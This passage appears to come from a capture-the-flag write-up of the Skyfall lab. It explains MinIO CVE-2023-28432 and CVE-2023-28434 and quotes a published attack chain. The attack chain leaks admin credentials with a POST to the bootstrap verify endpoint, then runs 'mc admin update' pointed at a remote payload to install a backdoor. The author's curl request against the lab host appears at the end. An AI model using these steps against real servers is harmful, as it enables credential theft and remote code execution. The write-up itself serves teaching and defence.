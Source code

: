 That seems simple enough. Dump all the environment variables. And it say there’s are no work arounds.

The [advisory for CVE-2023-28434](https://github.com/minio/minio/security/advisories/GHSA-2pxw-r47w-4p8c?ref=blog.min.io) say it is:

> An attacker can use crafted requests to bypass metadata bucket name checking and put an object into any bucket while processing `PostPolicyBucket`. To carry out this attack, the attacker requires credentials with `arn:aws:s3:::*` permission, as well as enabled Console API access.

This one can be prevented by setting `MINIO_BROWSER=off`.

The MinIO post links to a post from Security Joes, [New Attack Vector In The Cloud: Attackers caught exploiting Object Storage Services](https://www.securityjoes.com/post/new-attack-vector-in-the-cloud-attackers-caught-exploiting-object-storage-services?ref=blog.min.io), that goes into great detail about real world attacks they were seeing.

> All the steps required to achieve code execution in a vulnerable MinIO instance are described below:
>
> **1.** POST request to endpoint **/minio/bootstrap/v1/verify** to expose the credentials of the admin account.
>
> **2.** Attacker configures a MinIO client to interact with the vulnerable instance using the credentials gotten in Step 1. For this, the following command lines are required:
>
> ```

> mc alias set [ALIAS] [URL_TARGET_MINIO] [ACCESS_KEY] [SECRET_KEY]
> mc alias list
>
> ```

>
> **3.** Attackers trigger the update process on the compromised MinIO instance, pointing to a malicious payload hosted on a remote server. For this, the following command is executed.
>
> ```

> mc admin update [ALIAS] [MIRROR_URL] --yes
>
> ```

>
> **4.** “Evil” MinIO is installed, now containing a global backdoor that allows the attacker to execute commands on the host.

Step 1 is CVE-2023-28432.

#### CVE-2023-28432

There’s a [Python POC exploit](https://github.com/acheiii/CVE-2023-28432) (published over a year before Skyfall’s release), but I don’t need to run it. All it does is make a POST request to `/minio/bootstrap/v1/verify` on the instance:

```

oxdf@hacky$ curl -X POST http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify
```